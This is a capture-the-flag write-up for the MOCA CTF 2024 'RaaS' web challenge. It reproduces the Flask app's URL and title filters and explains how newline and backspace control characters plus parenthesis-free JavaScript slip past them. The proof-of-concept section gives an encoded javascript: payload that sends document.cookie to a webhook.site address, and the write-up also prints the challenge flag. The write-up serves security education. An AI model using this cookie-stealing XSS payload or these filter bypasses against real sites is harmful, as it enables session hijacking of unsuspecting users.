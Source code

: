 ```yaml
---
date: 2024-07-20T00:00:00+01:00
title: MOCA CTF 2024 Quals - RaaS
summary: Writeup for RaaS client-side web challenge of MOCA CTF Quals 2024
categories: ["web"]
difficulty: "medium"
tags: ["XSS", "URL spec"]
showHero: false
---
```


# RaaS - MOCA CTF Quals 2024

<img src="./img/MocaCTF_logo.png" width="200" height="200" style="display: block; margin-left: auto; margin-right: auto;">

## TL;DR

* The challenge involved achieving User Interaction XSS inside a Flask template through the `javascript:` pseudo protocol. This was accomplished bypassing a filtering regex and blacklisted characters.

## 0. Description

> A simple click-to-xss to warmup.

***

## 1. Challenge scenario

We're given a form in which it is possible to insert a link, a title, and be redirected to that URL. There is also the possibility of sending this link to the admin who will in turn be redirected.

![](./img/RaaS_firstlook.png "RaaS first look")

Source code is provided, so we'll look into that to understand what's happening.

### 1.1) Source code analysis

The project is divided into two parts: the main application and the admin bot. We'll look into the application code first.

**app.py**

```python
from flask import Flask, request, render_template, Response, redirect,jsonify, make_response, g, redirect, send_file
import requests
import urllib.parse
import re

app = Flask(__name__)

@app.route('/', methods=['GET'])
def main_page():
    return render_template('home.html')

def check_url(url):
    url = url.lower()
    pattern = r'[()=$`]'
    if bool(re.search(pattern, url, re.IGNORECASE | re.DOTALL)):
        return False
    if url.startswith("j") or "javascript" in url:
        return False
    return True

def check_title(title):
    if "<" in title or ">" in title:
        return False
    return True

@app.route('/redirectTo', methods=['GET'])
def redirect_to():

    url = request.args.get("url")
    title = request.args.get("title")
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"

    if not isinstance(title,str) or not isinstance(url,str):
        return render_template('redirect.html',url=default_url, title="title")
    url = url.strip()

    if not check_url(url) or not check_title(title):
        return render_template("redirect.html", title=title, url=default_url)
    return render_template('redirect.html',url=url, title=title)

@app.route('/redirectAdmin', methods=['GET'])
def redirect_admin():
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"
    admin_bot = "http://raas-admin:3000/report_to_admin"
    url = request.args.get("url")
    title = request.args.get("title")
    
    if not isinstance(title,str) or not isinstance(url,str):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    url = url.strip()
    if not check_url(url) or not check_title(title):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    requests.post(admin_bot, json={"url":url, "title":title})
    return jsonify({"message":"done"}), 201


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```

Clicking on the "_Get Redirected!_" button will trigger the `/redirectTo` route, which is anyway triggered also by the "_Redirect the Admin!_" button that executes the `/redirectAdmin` route. The first endpoint accepts the `url` and `title` parameters which must be strings and later passed to the `check_url()` and `check_title()` sanitizing functions. If we can bypass that with a working payload, we'll have XSS. The second endpoint forwards the given URL to the admin bot, which simply goes to the `/redirectTo` endpoint with our inputs, and simulates a button click on the "_Follow Link_" button.

![](./img/Raas_redirectTo.png)

The `check_url` function aims to sanitize the URL input by converting it to lowercase, hence avoiding all the lowercase-uppercase payloads like `jAvAsCriPt:aLeRt(1)`. It also check for the presence of some special characters with the regex ``r'[()=$`]'`` that will limit us later on exploitation. Particularly, it ensures the URL does not start with "j" character or contain the substring "javascript". This comes out as the main limitation for us, since it should block the payloads with the javascript pseudo protocol.

At this point, a simple way out will be any other working pseudo protocol XSS payload like `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4`. However, if we try so, the browser will insult us with:

![](./img/Raas_browserblock.png)

My approach at this point was to split the checks individually in the source code an try to bypass them one by one.

## 2. Exploitation

Below I will explain how I bypassed each of them, doing it with a bottom-up approach cause I found it more convenient.

### 2.1) "javascript" not allowed bypass

We're not allowed to use the string "javascript" anywhere in our URL, so...just don't use it! We will write

```
java
script
```

instead. Here we are using a **newline character** to bypass the check. Since in the Python side `"java\x0Ascript" != "javascript"`, but in the broswer `java%0Ascript` will still be considered a valid url for the `javascript` protocol.

{{< alert >}}
**Note**  
Our input get stripped before getting into che sanitizing function, however Python [strip()](https://docs.python.org/3.11/library/stdtypes.html#str.strip) function only removes **leading and trailing characters**.
{{< /alert >}}

Even though this is a common bypass, I never actually knew why this was working. Researching for bypasses for the javascript pseudo protocol I've found [this blog](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) which was helpful to me to find out the reason why whitespaces are allowed in this situation and find out the bypass for the next filter. The reason seems to rely in the [URL spec standard](https://url.spec.whatwg.org/) which removes any ASCII tab or newline from inputs.

### 2.2) doesn't starts with "j" bypass

This one was tougher. the strip function that was allowing me to bypass the previous check was sending me crazy on this one. Majority of payloads broke the `javascript` protocol: even if they bypassed the checks, they would just get included as part of the web application URL (e.g `url=/java%0Ascript:payload`). Another example is what I initially thought to be a NULL byte bypass, which caused instead a strange behaviour:

![](./img/Raas_NULLbyteinurl.png)

As you can see, it bypassed the python checks but in the button preview (left corner) it was mutated in some non printable character, invalidating it as protocol. However, i felt in being in the right path, until the previous blog confirmed my sensations.

![](./img/RaaS_controlcharsinURL.png)

Control Characters are allowed?? It did, in fact.\
Using the **BACKSPACE** (`%08`) character allowed me to bypass the python filter and still getting a valid url for the javascript protocol! And any of the [ASCII Control Characters](https://en.wikipedia.org/wiki/Control\_character) below would have probably get the job done.

![](./img/Raas_ASCIIcontrolchars.png)

### 2.3) regex bypass

This was probably the easiest check to bypass, since javascript is very permissive in expressions that can be created even with a few symbols, it is no coincidence that there are many esoteric languages ​​on javascript such as [JSFuck](https://jsfuck.com/) that manage to create valid expressions using only a few symbols.

{{<alert "lightbulb">}}
**Fun Fact**  
[here](http://aem1k.com/aurebesh.js/) I've found some of the funniest javascript esoteric shit expression while doing this challenge. Like...how the fuck i can popup alert with fucking Egyptian hieroglyphs, but a simple NULL byte will break the shit out of the payload??
{{</alert>}}

However, searching brainlessly "XSS payloads without parentheses" was enough since i found many working payloads inside [this repo](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md). I was also able to double encode inside the payload after the `javascript:` since javascript was decoding it.

### 2.4) PoC

```javascript
%08java%0Ascript%3Afetch%2528'https://webhook.site/xxxx'%2Bdocument.cookie%2529
// javascript:fetch('https://webhook.site/xxxx'+document.cookie)
```

![](./img/RaaS_finalpayload.png)

Flag: `PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}`
